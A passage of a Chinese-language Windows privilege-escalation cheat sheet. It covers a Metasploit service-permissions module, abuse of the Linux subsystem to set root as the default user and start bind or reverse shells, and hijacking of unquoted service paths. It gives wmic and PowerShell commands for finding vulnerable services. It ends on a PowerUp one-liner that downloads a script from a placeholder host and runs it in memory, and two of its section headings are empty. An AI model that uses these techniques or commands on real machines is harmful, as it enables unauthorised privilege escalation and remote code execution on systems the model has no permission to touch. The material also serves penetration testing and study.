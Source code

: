 或者也可以直接使用 msf 中的 exp：
```
exploit/windows/local/service_permissions
```
### windows 10 - CVE-2019-1322 UsoSvc

### Windows XP SP1 - upnphost

## 利用 Linux 子系统提权
> 凭借 root 权限，Windows Subsystem for Linux (WSL) 允许用户在任何端口上创建绑定 shell（无需提升）。  不知道 root 密码？  没问题，只需将默认用户设置为 root W/.exe --default-user root 即可。  现在启动您的绑定 shell 或反向操作。

Windows 子系统的文件目录也是可以直接查看的：
```bash
C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\
```

## 利用未加引号的服务路径提权
利用条件：
- 服务的路径存在无引号且包含空格或其他分隔符。
- 上级路径可写。

> Microsoft Windows 无引号服务路径枚举漏洞。  
> 所有 Windows 服务都有其可执行文件的路径。  
> 如果该路径未加引号且包含空格或其他分隔符，则服务将首先尝试访问父路径中的资源。

例如：
```bash
For C:\Program Files\something\legit.exe, Windows will try the following paths first:

    C:\Program.exe
    C:\Program Files.exe
```
如果这类路径可写，即可劫持该服务的 exe，如果该服务具备高权限，则可提权。


搜索此类服务。
```bat
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

漏洞利用：
- Metasploit exploit : exploit/windows/local/trusted_service_path
- PowerUp exploit
    ```powershell
    # find the vulnerable application
    C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
